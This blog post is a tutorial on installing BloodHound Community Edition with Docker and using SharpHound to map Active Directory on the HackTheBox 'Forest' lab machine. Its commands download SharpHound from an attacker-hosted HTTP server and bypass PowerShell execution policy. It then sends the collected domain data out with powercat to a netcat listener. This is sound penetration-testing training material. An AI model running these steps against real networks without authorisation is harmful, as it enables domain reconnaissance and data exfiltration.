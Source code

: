 
---
title: "How to Setup BloodHound Community Edition"
summary: "Quick explanation on how to get BloodHound up and running in a few minutes! This post include a step by step installation guide of **BloodHound**, as well as downloading **SharpHound** and uploading it to a machine in order to map out an Active Directory Network."
categories: ["Post","Blog",]
tags: ["post","bloodhound","sharphound"]
#externalUrl: ""
#showSummary: true
draft: false
date: 2025-01-11

---

## BloodHound 
**BloodHound** is a powerful and widely used tool in the field of cybersecurity, particularly for penetration testers in _Corporative Enviroments_. It is designed to map and analyze Active Directory structures, helping identify security misconfigurations and potential attack paths that an adversary could exploit to escalate privileges or gain access to sensitive resources.

**BloodHound** operates by collecting and visualizing relationships within an AD domain. These relations include group memberships, user permissions, trust relationships, and more. The tool’s strength lies in its ability to uncover complex chains of privileges that might be invisible to administrators manually auditing AD security.

We will do a quick installation step by step of the Community Version of **BloodHound**, as well and a small step by step tutorial on how to run both **BloodHound** and **SharpHound** taking as an example the [Forest]({{< ref "/content/en/post/forest/index.md" >}} "Forest") Machine from HackTheBox. Check it out if you haven't already!

Let's begin!

- - -
## Installation
First, we need to install _Docker_:

```bash
kali@kali:~$ sudo apt install -y docker.io

kali@kali:~$ sudo systemctl enable docker --now
```

Then, create the _docker_ group if it does not exist:

```bash
kali@kali:~$ sudo groupadd docker
```

Add your user to the _docker_ group:

```bash
kali@kali:~$ sudo usermod -aG docker $USER
```

Now, install **docker-compose** form [github](https://github.com/docker/compose/). Also, remember to give execution rights to the binary and add it to the `/usr/bin` directory.

```bash
kali@kali:~$ mv ./docker-compose-linux-aarch64 docker-compose
kali@kali:~$ chmod +x ./docker-compose
kali@kali:~$ mv ./docker-compose /usr/bin/
```

Lastly, we need to copy the **BloodHound** `docker-compose.yml` file to save it locally:

```bash
kali@kali:~$ sudo wget https://ghst.ly/getbhce -O docker-compose.yml
kali@kali:~$ docker-compose up
```

**BloodHound** will be available on port 8080.

- - -
## SharpHound
**SharpHound** is the data collection component of BloodHound. It is a C# tool designed to gather information from Active Directory environments, which is then used by BloodHound to map and analyze attack paths. SharpHound collects data such as user sessions, group memberships, ACLs, and trust relationships, giving penetration testers and security analysts a detailed view of the environment.

The collected data is stored in JSON files, which are later imported into BloodHound for visualization and analysis. Together, SharpHound and BloodHound are a powerful duo for identifying and understanding security weaknesses in AD domains.

- - -
## BloodHound  and SharpHound Usage

First, let's log into **BloodHound**. We have it already running, so we need to access it on `http://localhost:8080`.

![bloodhound1](/img/bloodhound/bloodhound1.png)

> The first time we access **BloodHound**, we will need to input the random generated password found on the terminal window where `docker-compose` is running. Then, we will need to change it. The default user is **admin**.

![bloodhound9](/img/bloodhound/bloodhound9.png)

Now on the _Download Collectors_ tab, we can download the latest version of **SharpHound**:

![bloodhound3](/img/bloodhound/bloodhound3.png)

Here, select **SharpHound**, and we’re almost ready to start collecting data! Just a few more steps:

![bloodhound4](/img/bloodhound/bloodhound4.png)

Next, upload the **SharpHound** executable to the Windows machine whose Active Directory you intend to map. From our Attacker Machine, we serve **SharpHound** from a _Python_ Server:

```bash
┌──(s3n㉿kali)-[/opt/bloodhound/sharphound]
└─$ python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

From the Windows Machine, we download **SharpHound** with the following command:

```powershell
PS C:\Users\svc-alfresco\Desktop> iwr -uri http://10.10.14.18/SharpHound.ps1 -Outfile SharpHound.ps1
```

After transfer it to the Windows Machine, we can import it to PowerShell:

```powershell
PS C:\Users\svc-alfresco\Desktop> powershell -ep bypass

PS C:\Users\svc-alfresco\Desktop> Import-Module .\Sharphound.ps1
```

Now, we can run the script to collect all the information from the domain. **SharpHound** primarily relies on `LDAP` queries to gather data from Active Directory. Since LDAP queries are a standard part of domain communication, any domain-authenticated user can execute them, which is why SharpHound doesn’t require administrative privileges for most of its operations.

```powershell
PS C:\Users\svc-alfresco\Desktop> Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\svc-alfresco\Desktop\ -OutputPrefix "forest"
```

After executing, we'll see a **zip** file with all the information. That's what we need to transfer back to our attacking machine. The .bin file that **BloodHound** generates is a binary file used as a cache for preprocessed data. When you import JSON files collected by SharpHound into BloodHound, it processes the data and stores it in a Neo4j database. 

The `.bin` file serves as a local cache of this processed data to improve performance, but we don't necesarilly need to transfer it back to our machine, so we will ignore it.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> ls


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/10/2025   9:29 AM          43554 forest_20250110092905_BloodHound.zip
-a----        1/10/2025   9:15 AM        1942029 SharpHound.ps1

```

We can use our favorite transfer method, I will use `powercat.exe`:

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> powercat -c 10.10.14.18 -p 4444 -i C:\Users\svc-alfresco\Desktop\forest_20250110092905_BloodHound.zip
```

On our Attacking Machine, we need to open a `netcat` listener in order to receive the data:

```bash
┌──(s3n㉿kali)-[/opt/bloodhound]
└─$ sudo nc -nlvp 4444 > bloodhound.zip   
listening on [any] 4444 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.161] 50906
```

Once we have the zip file locally on our machine, let's upload it to **BloodHound**. First, press the _Administration_ option.
![bloodhound2](/img/bloodhound/bloodhound2.png)

Import the zip file in the _File Ingest_ option, in the _Data Collection_ section:

![bloodhound10](/img/bloodhound/bloodhound10.png)

Click and Select the _zip_ file

![bloodhound5](/img/bloodhound/bloodhound5.png)

Nice! It was succesfully uploaded.

![bloodhound6](/img/bloodhound/bloodhound6.png)

Teaching how to do queries with **BloodHound** it out of the scope of this post, but let's run a quick "_Shortest Paths to Domain Admins_" query to check if the ingestion of the data was successful.
![bloodhound7](/img/bloodhound/bloodhound7.png)

It works! You now have a fully functional **BloodHound** instance up and running, ready to map out and analyze your Active Directory environment. 

## Stopping the Instance

Stopping the instance is as easy as pressing `Ctrl+C` on the terminal window where `docker-compose` is running.

![bloodhound8](/img/bloodhound/bloodhound8.png)

If you want to set it up again, just do `docker-compose up` and you are good to go.

I hope this guide was helpful in getting everything set up smoothly, as setting up a **BloodHound** environment could be tricky at first. Give it a try! 
